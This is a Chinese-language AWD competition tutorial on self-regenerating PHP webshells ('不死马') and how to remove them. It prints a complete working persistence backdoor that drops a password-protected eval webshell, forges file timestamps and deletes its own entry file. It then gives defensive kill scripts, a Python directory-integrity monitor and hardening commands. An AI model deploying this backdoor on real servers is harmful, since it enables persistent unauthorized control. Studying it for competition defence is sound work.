

# AWD权限维持与对抗博弈：不死马机制、条件竞争查杀与目录监控脚本

---

## 0. 基础前置知识扫盲：什么是不死马？

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


在 AWD 攻防赛中，最令新手防守手绝望的场景莫过于：
在 Web 目录下发现了一个木马文件 `.shell.php`，防守手在终端敲下 `rm -f .shell.php`；
然而，还没等他松口气，再次 `ls` 时，这个 `.shell.php` 又好端端地躺在原地！
无论你删除它 10 次、100 次，**只要删掉，它就会在 0.01 秒内再次死灰复燃**！

这种无论怎么删除都能瞬间重生的后门，就是 AWD 赛场上臭名昭著的**“不死马（Immortal Webshell / 常驻内存写入后门）”**。

### 1. 通俗生活类比：打地鼠与生产线
- **普通的 Webshell**：像地里的一只**地鼠**。你拿锤子（`rm`）砸一下，地鼠死了，文件没了。
- **不死马**：像**地底下一台不知疲倦的全自动地鼠 3D 打印机**！
  攻击者只需要在浏览器中**访问一次**不死马的初始文件，就会在服务器后台的 PHP 进程中启动一个死循环打印机。
  你在地面上砸掉一只地鼠（删除文件），地下打印机（内存常驻进程）在千分之一秒内立即重新打印一只新的地鼠放到洞口！
  只要这台打印机的电源（后台常驻进程）没有被切断，你再怎么删文件都是徒劳的无用功！



---

## 1. 不死马底层构造原理与武器化源码剖析

### 1.1 核心支持函数深度解析

1. **`ignore_user_abort(true)`**：
   - **默认行为**：当客户端浏览器断开与服务器的 HTTP 连接时（例如关闭网页或取消请求），PHP 引擎会自动终止当前脚本的运行。
   - **不死马机制**：将此函数设为 `true` 后，**即使攻击者立即关掉浏览器断开 TCP 连接，该 PHP 脚本仍然会在服务器后台静默持续执行**！
2. **`set_time_limit(0)`**：
   - **默认行为**：`php.ini` 通常设置 `max_execution_time = 30`（脚本最长运行 30 秒超时强制退出）。
   - **不死马机制**：传入 `0` 表示**永久不超时**，赋予脚本跨越轮次长久驻留的寿命。
3. **`unlink(__FILE__)`**：
   - 脚本被触发运行后的第一件事，就是将自身磁盘文件删除。这样管理员来排查时，根本找不到当初上传的初始文件名。
4. **`touch($file, $time)`**：
   - 强制将生成的后门文件的最后修改时间修改为几天前甚至几年前（与周围正常的业务文件时间戳保持完全一致），彻底绕过管理员常用的 `find -mmin -10`（排查最近十分钟内修改的文件）命令！

---

### 1.2 工业级 AWD 不死马源码实现（带防篡改与密码校验）

在实战中，攻击者为了防止自己种下的不死马被其他队伍“回首掏”盗用，通常会为后门加上**强密码哈希校验**：

```php
<?php
/**
 * AWD 战术级不死马
 */
ignore_user_abort(true); // 忽略客户端断开
set_time_limit(0);        // 永久运行不超时

$target_file = '/var/www/html/.config_cache.php'; // 伪装成正常缓存文件

// 生成的后门代码 (带 md5 密码校验, 只有知道密码的我们才能调用)
$backdoor_code = '<?php 
if(md5($_POST["pwd"]) === "c4ca4238a0b923820dcc509a6f75849b") {
    @eval($_POST["cmd"]);
}
?>';

// 抹除自身入口文件
@unlink(__FILE__);

// 伪造时间戳 (设为 2024 年初的合法时间)
$fake_time = strtotime('2024-01-01 12:00:00');

// 无限循环常驻生成
while (true) {
    // 写入后门
    file_put_contents($target_file, $backdoor_code);
    
    // 伪装时间戳
    @touch($target_file, $fake_time);
    
    // 给后门文件设置只读执行权限 (防对手篡改)
    @chmod($target_file, 0555);
    
    // 极短休眠 1000 微秒 (0.001秒)，极难被手工删除击穿
    usleep(1000);
}
?>
```

---

## 2. 查杀不死马三板斧：彻底破解死灰复燃

当防守手发现靶机被植入了不死马时，必须冷静使用以下三种手段将其斩草除根：

### 2.1 方案一：直捣黄龙——杀死常驻 PHP 进程与重启服务（首选）

只要杀死正在内存中执行 `while(true)` 的 PHP 子进程，不死马的源头就彻底切断了！

```bash
# 1. 查找正在运行的 PHP 进程与可疑的高 CPU/常驻子进程
ps -aux | grep php
ps -ef | grep www-data

# 2. 强行杀死属于 Web 运行用户的所有进程
pkill -9 -u www-data
# 或者根据 PID 强杀
kill -9 <PID>

# 3. 彻底重启 Web 与 PHP 容器服务 (清空所有驻留内存上下文)
service php7.4-fpm restart || /etc/init.d/php-fpm restart
service apache2 restart || service nginx restart

# 4. 重启完成后，再次执行 rm 删除残留的后门文件，此时后门再也不会重生!
rm -f /var/www/html/.config_cache.php
```

---

### 2.2 方案二：降维打击——条件竞争写入对抗（Race Condition Counter-Kill）

如果当前队伍没有 root 权限（只有低权限 `ctf` 用户），无法执行 `service restart`，**如何用代码击败代码？**
我们可以编写一个**比攻击者的不死马循环更频繁、优先级更高的“查杀脚本（杀马脚本）”**！

```php
<?php
/**
 * 条件竞争查杀脚本：killer.php
 * 原理：以极高的频率抢占写入空文件或阻断代码
 */
ignore_user_abort(true);
set_time_limit(0);

$target_file = '/var/www/html/.config_cache.php';

while (true) {
    // 强行向目标后门文件写入安全合法的空内容或 exit; 脚本
    file_put_contents($target_file, '<?php exit(); ?>');
    
    // 尝试锁定文件权限为不可写 (0444)
    @chmod($target_file, 0444);
    
    // 休眠仅 100 微秒 (比不死马快 10 倍，在竞争中绝对胜出!)
    usleep(100);
}
?>
```
在服务器上后台运行 `php killer.php`，攻击者的后门文件将被我们持续强行覆盖为 `exit();`，其木马功能瞬间彻底失效！

---

### 2.3 方案三：奇门遁甲——同名目录锁定阻断法（Linux 逻辑盲区）

这是 Linux 文件系统特性中极其精妙的防御技巧：
> **在 Linux 操作系统中，同一个父目录下不能同时存在同名的“普通文件”和“目录文件夹”！**

#### 实战操作只需三行命令：
```bash
# 1. 删除不死马当前生成的普通文件
rm -f /var/www/html/.config_cache.php

# 2. 在同一路径下，立即创建一个名字一模一样的“文件夹”！
mkdir /var/www/html/.config_cache.php

# 3. 将这个文件夹的权限锁定为 000 (不可读不可写不可执行)
chmod 000 /var/www/html/.config_cache.php
```
**防御结果**：
当攻击者的内存不死马再次执行 `file_put_contents('/var/www/html/.config_cache.php', ...)` 时，Linux 内核会直接抛出 `Is a directory` 错误并静默失败！**不死马直接被物理卡死，永远无法再次写入文件**！

---

## 3. 目录动态监控防御脚本：自动捕获与瞬间回滚

防守手不可能每分每秒盯着终端。我们可以部署一个基于 Python 的后台守护监控脚本 `file_guard.py`，实时监控网站目录：
- 一旦发现有任何陌生文件生成，**立即自动删除并报警**；
- 一旦发现核心源码被篡改，**立即从备份目录自动覆盖还原**！

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
AWD Web 网站完整性守护监控脚本
功能：自动检测新增文件并秒杀、自动检测核心文件篡改并还原
"""
import os
import time
import shutil

WEB_ROOT = "/var/www/html"
BACKUP_DIR = "/tmp/clean_backup" # 开局时存放在安全目录的纯净备份

def scan_and_protect():
    # 1. 遍历当前 Web 目录中的所有文件
    for root, dirs, files in os.walk(WEB_ROOT):
        for file in files:
            file_path = os.path.join(root, file)
            rel_path = os.path.relpath(file_path, WEB_ROOT)
            backup_path = os.path.join(BACKUP_DIR, rel_path)
            
            # 如果该文件在纯净备份中根本不存在 -> 判定为后门文件!
            if not os.path.exists(backup_path):
                print(f"[!] 警报: 发现新增后门文件: {file_path}，正在执行自动秒杀!")
                try:
                    os.remove(file_path)
                except Exception as e:
                    # 如果删除失败(可能是不死马)，创建同名目录锁死
                    try:
                        os.makedirs(file_path, exist_ok=True)
                    except:
                        pass
            else:
                # 如果文件存在，但大小或修改时间异常，自动从纯净备份还原
                if os.path.getsize(file_path) != os.path.getsize(backup_path):
                    print(f"[*] 发现文件被篡改: {file_path}，正在自动还原...")
                    shutil.copyfile(backup_path, file_path)

if __name__ == "__main__":
    print("[*] AWD 目录自动化守护引擎启动...")
    while True:
        try:
            scan_and_protect()
            time.sleep(1.0) # 每秒巡检一次
        except KeyboardInterrupt:
            break
        except Exception as e:
            time.sleep(1.0)
```

---

## 4. AWD 权限维持攻防对抗策略对照表

| 对抗维度 | 进攻方策略（权限维持） | 防守方应对方案（应急清剿） |
| :--- | :--- | :--- |
| **文件删除** | `while(true)` + `usleep()` 毫秒级重写 | 方案一：`pkill -9 -u www-data` 杀进程<br>方案二：创建同名目录物理卡死 |
| **连接断开** | `ignore_user_abort(true)` 脱钩后台运行 | 重启 PHP-FPM / Apache 服务清空全部内存上下文 |
| **时间戳排查**| `touch()` 伪造为一年前的历史时间 | 使用 `file_guard.py` 对比开局静态备份文件列表 |
| **被对手盗用**| 后门代码强制添加 md5 密码鉴权 | 流量捕获 WAF 截获密码，用对手的密码直接反控其后门 |

---
## 纵深防御与安全加固基线

> [!IMPORTANT]
> **查杀与终结不死马的硬核绝招**：面对毫秒级条件竞争不断自我复活的不死马，常规的文件删除指令完全无效，必须从进程级和文件系统级进行降维绝杀：

1. **进程级终结：强力杀死运行不死马的 PHP 进程池**：
   * 不死马的本质是一个处于死循环 `while(1)` 中的常驻 PHP 进程。只要该进程还在运行，它就会不断向磁盘重写文件。
   * **绝杀命令**：直接杀死所有正在运行的 PHP-FPM 工作进程，从内存中斩草除根：
   ```bash
   pkill -9 -f php-fpm
   service php-fpm restart
   ```

2. **文件系统级加锁：使用 `chattr +i` 施加不可变属性**：
   * 在 Linux 系统中，使用 `chattr +i` 锁定目录后，**哪怕是 root 权限也绝对无法在该目录下创建、删除、修改任何文件**！
   * 修复完漏洞后，直接锁定整个 Web 目录：
   ```bash
   chattr +i -R /var/www/html/
   # 若要临时修改配置，需先解除锁定：
   # chattr -i -R /var/www/html/
   ```

3. **同名目录互斥占位术（优雅终结条件竞争）**：
   * 删除不死马文件 `.shell.php` 之后，在同一位置立即创建一个名为 `.shell.php` 的**只读空文件夹**：
   ```bash
   rm -f .shell.php && mkdir .shell.php && chmod 000 .shell.php
   ```
   * **原理**：在 Linux 文件系统底层规则中，同一个目录下不允许存在同名的文件与目录！由于不死马的代码是 `file_put_contents('.shell.php', ...)`，当操作系统检测到已有同名目录存在时，底层写文件操作将直接抛出致命错误崩溃并退出循环！
